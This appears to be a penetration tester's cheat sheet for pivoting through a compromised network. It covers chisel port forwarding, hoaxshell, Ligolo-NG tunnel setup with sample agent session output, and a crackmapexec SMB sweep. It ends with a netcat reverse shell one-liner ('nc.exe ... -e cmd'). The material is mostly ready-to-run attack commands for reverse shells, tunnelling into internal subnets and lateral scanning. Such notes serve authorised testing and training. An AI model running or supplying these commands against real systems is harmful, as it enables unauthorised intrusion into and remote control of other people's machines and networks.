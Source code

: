 > Using Foxy proxy to add a way to see the web page for 10.10.2.5
> Name: Chisel Proxy 
> Proxy type: SOCKS5
> Proxy IP: 127.0.0.1
> Port 1080

```bash
$ ssh user@2.2.2.2  # connect to chisel client 
$ ./chisel client --fingerprint h3214jho89huk134hk12j4h= 172.18.25.2:8080 0.0.0.0:4444:172.18.25.2:4444  # Create a listening port to use with hoaxshell to get a reverse shell
$ python hoaxshell.py -s 10.10.2.1 -p 4444 # Copy powershell info into rdp connected windows box

```


### Ligolo-NG Usage

> Need proxy and agent files.
> https://github.com/nicocha30/ligolo-ng
> https://github.com/nicocha30/ligolo-ng/releases

```bash
$ sudo apt install ligolo-ng                       #   
$ sudo ip tuntap add user labuser mode tun ligolo  # Add tunnel interface on proxy server
$ sudo ip link set ligolo up                       # enables interface

$ ./proxy -h
$ ./proxy -selfcert
INFO[0000] Listening on 0.0.0.0:11601

ligolo-ng >> INFO[0073] Agent joined.  
ligolo-ng >> help
ligolo-ng >> session
? Specify a session : 1 [Use arrows to move, type to filter]
> 1 - INTERNAL\Localadmin@WinPC01 - 192.168.85.136:57221
[Agent : INTERNAL\Localadmin@WinPC01] >> start

```

```bash
$ sudo ip route add 10.10.120.0/24 dev ligolo       # Add route to access   
$ ip route list                                    # Check routes      

$ crackmapexec smb 10.10.120.0/24                   # Testing tunnel to see if we have access 
```

```bash
C:\Users\Bob\Desktop>ligolo-agent.exe -connect 192.168.85.128:11601 -ignore-cert

```

>Using a reverse shell with ligolo by connecting to client interface that the listener is setup on and then forwarding that traffic to the netcat listener on the pentest box

```powershell
PS C:\Users\Public> nc.exe 10.10.120.131 1234 -e cmd
```
